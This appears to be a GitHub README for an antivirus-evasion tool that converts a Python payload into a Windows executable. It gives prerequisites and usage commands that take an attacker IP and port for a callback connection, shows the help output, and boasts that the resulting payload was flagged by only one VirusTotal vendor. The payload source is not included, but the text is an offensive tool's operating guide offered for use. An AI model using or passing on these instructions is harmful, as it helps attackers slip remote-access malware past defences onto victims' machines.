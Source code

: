 ![GitHub language count](https://img.shields.io/github/languages/count/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub repo size](https://img.shields.io/github/repo-size/0xCyberY/Antivirus-Evasion-Py2exe)
![Lines of code](https://img.shields.io/tokei/lines/github/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub](https://img.shields.io/github/license/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub commit activity](https://img.shields.io/github/commit-activity/w/0xCyberY/Antivirus-Evasion-Py2exe)
![Twitter Follow](https://img.shields.io/twitter/follow/0xCyberY?style=social)

# Antivirus-Evasion-Py2exe
Simple python script to evade antiviruses on fully patched and updated Windows environments using a python then converted exe payload.

# Note: This script works only on Windows OS

# Prerequisite:
1. [Install Python 2.7.16 x86 for Windows](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
2. [Install Py2exe 32 bits for Python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

## Usage:
```
python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443
```

``
C:\>python aepy2exe.py -h
                                Antivirus Evasion Py2exe
 ,.      .                         ,--.                         ;-.      ,-.
/  \     |   o     o               |                o           |  )        )
|--| ;-. |-  . . , . ;-. . . ,-.   |-   . , ,-: ,-. . ,-. ;-.   |-'  . .   /  ,-. . , ,-.
|  | | | |   | |/  | |   | | `-.   |    |/  | | `-. | | | | |   |    | |  /   |-'  X  |-'
'  ' ' ' `-' ' '   ' '   `-` `-'   `--' '   `-` `-' ' `-' ' '   '    `-| '--' `-' ' ` `-'
                                                                     `-'
usage: aepy2exe.py [-h] [-e EXECUTE] [-ip ATTACKER_IP] [-p PORT]

Antivirus Evasion Py2exe

optional arguments:
  -h, --help            show this help message and exit
  -e EXECUTE, --execute EXECUTE
                        execute py2exe
  -ip ATTACKER_IP, --attacker_ip ATTACKER_IP
                        specified attacker IP
  -p PORT, --port PORT  specified attcaker port

Example:
        C:\>python aepy2exe.py -e py2exe -ip <ip_address> -p <port>
        C:\>python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443 
``
``
The script will generate CyberY.py, build, and dist, Our execution file will be under dist.
``
![Output](https://github.com/0xCyberY/Antivirus-Evasion-Py2exe/blob/main/output.png)

In case there is an error such as The system cannot open the device or file specified.
Try hard!
# Conclusion
Keep in mind that attempting antivirus bypass is a game. Whenever a new evasion technique gets popular, antivirus vendors will eventually learn about itand update their signatures database to block it. Then, new evasion techniques will a rise, which will make vendors to add it to their signature database, and so on.

By the time of this writing, the payload was flagged as malicious by only one vendor on Virus Total.

![virus_total](https://github.com/0xCyberY/Antivirus-Evasion-Py2exe/blob/main/virus%20total.png)

